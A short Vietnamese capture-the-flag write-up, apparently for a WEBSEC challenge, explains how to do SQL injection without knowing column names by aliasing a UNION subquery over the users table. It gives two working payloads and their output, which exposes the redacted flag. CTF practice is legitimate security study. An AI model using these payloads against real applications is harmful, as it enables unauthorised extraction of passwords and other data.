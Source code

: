 # SQLi bypass với alias


Lấy ý tưởng từ [bài viết](https://tsublogs.wordpress.com/2017/06/07/pentest-qa-cung-tsu-5-sql-injection-without-information_schema/) của một đàn anh người Việt.

-> Ta có thể sqli mà không cần đến column name của table hiện tại (users).

Thử payload:

`4 UNION SELECT a, c FROM (SELECT 4 AS a, 4 AS b, 4 AS c UNION SELECT * FROM users)`

Kết quả:
```
Username for given ID: not_your_flag

Other User Details:
id -> 0
login -> not_your_flag
```

Đại khái có thể hiểu là ta đang `UNION SELECT id, password from users` nhưng khác ở chỗ table mới này sẽ có thêm record (4, 4, 4) ở đầu.

Dễ thấy password không nằm ở record có `id = 0` không thỏa, tiếp tục thử với `id = 1`

`4 UNION SELECT a, c FROM (SELECT 4 AS a, 4 AS b, 4 AS c UNION SELECT * FROM users) where a between 1 and 1`

Kết quả:
```
Username for given ID: WEBSEC{REDACTED}

Other User Details:
id -> 1
login -> WEBSEC{REDACTED}
```

DONE!!!
